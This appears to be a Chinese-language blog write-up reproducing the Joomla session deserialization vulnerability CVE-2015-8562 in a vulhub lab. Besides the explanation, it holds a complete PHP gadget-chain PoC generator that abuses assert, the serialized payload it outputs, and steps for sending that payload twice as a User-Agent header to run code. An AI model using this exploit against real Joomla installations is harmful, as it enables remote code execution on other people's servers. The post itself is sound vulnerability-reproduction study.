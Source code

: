 ```yaml
---
title: joomla 反序列化漏洞(CVE-2015-8562)
date: 2021-12-13 12:36:07
tags: 漏洞复现
cover: https://w.wallhaven.cc/full/q2/wallhaven-q2pe2l.jpg
---
```


# joomla 反序列化漏洞(CVE-2015-8562)

## 1.简介

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

## 2.影响版本

 - Joomla 1.5.x, 2.x, and 3.x before 3.4.6
 - PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 3.复现过程

这里使用vulhub搭建环境

![image-20211213140734457](https://raw.githubusercontent.com/todis21/image/main/img/image-20211213140734457.png)

环境启动后访问`http://your-ip:8080/`，按照指示安装即可

连接数据库：

![image-20211213141146828](https://raw.githubusercontent.com/todis21/image/main/img/image-20211213141146828.png)

![image-20211213141233555](https://raw.githubusercontent.com/todis21/image/main/img/image-20211213141233555.png)

安装完成后，访问主页，抓个包

![image-20211213141515900](https://raw.githubusercontent.com/todis21/image/main/img/image-20211213141515900.png)

先把UA头和Cookie删除，构造数据包，让服务器返回Cookie

![image-20211213142010321](https://raw.githubusercontent.com/todis21/image/main/img/image-20211213142010321.png)

发起请求：

```
GET / HTTP/1.1
Host: ip:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.10.128:8080/installation/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

返回的Cookie:

```
43624f23bf50e5adc955be0e11ed9c2c=390eadc4a6ec125ef32fc0c28c5589be
```

然后利用别人的exp生成POC

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a);

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";


```

运行生成的POC

```
123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}𝌆

```

将这个POC作为User-Agent，带上刚获取的Cookie发包，连续发两次这个包，因为第一次发包，让这个恶意构造的数据存储在数据库中，第二次发包，恶意代码就会被执行

![image-20211213144219455](https://raw.githubusercontent.com/todis21/image/main/img/image-20211213144219455.png)

